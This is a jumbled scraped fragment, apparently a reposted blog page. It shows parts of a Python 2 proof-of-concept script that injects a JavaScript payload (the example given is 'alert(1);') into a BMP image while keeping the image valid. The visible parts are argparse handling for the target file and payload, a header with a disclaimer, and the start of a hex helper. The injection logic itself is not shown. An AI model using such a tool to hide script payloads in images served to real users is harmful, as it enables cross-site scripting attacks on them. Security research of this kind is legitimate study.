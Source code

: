 	parser = argparse.ArgumentParser()
	parser.add_argument("filename",help="the bmp file name to infected")
	parser.add_argument("js_payload",help="the payload to be injected. For exampe: \"alert(1);\"")
	args = parser.parse_args()
	injectFile(args.js_payload,args.filename)</pre>
来自：http://marcoramilli.blogspot.com/2013/10/hacking-through-images.html
<pre class="brush:py">#!/usr/bin/env python2

#============================================================================================================#

#======= Simply injects a JavaScript Payload into a BMP. ====================================================#

#======= The resulting BMP must be a valid (not corrupted) BMP. =============================================#

#======= Author: marcoramilli.blogspot.com ==================================================================#

#======= Version: PoC (don't even think to use it in development env.) ======================================#

#======= Disclaimer: ========================================================================================#

#THIS SOFTWARE IS PROVIDED BY THE AUTHOR "AS IS" AND ANY EXPRESS OR

#IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED

#WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE

#DISCLAIMED. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY DIRECT,

#INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES

#(INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR

                                                                #SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION)

                                                                #HOWEVER CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT,

#STRICT LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING

#IN ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF THE

#POSSIBILITY OF SUCH DAMAGE.

#===========================================================================================================#

import argparse

import os

#---------------------------------------------------------

def _hexify(num):

        """

        Converts and formats to hexadecimal
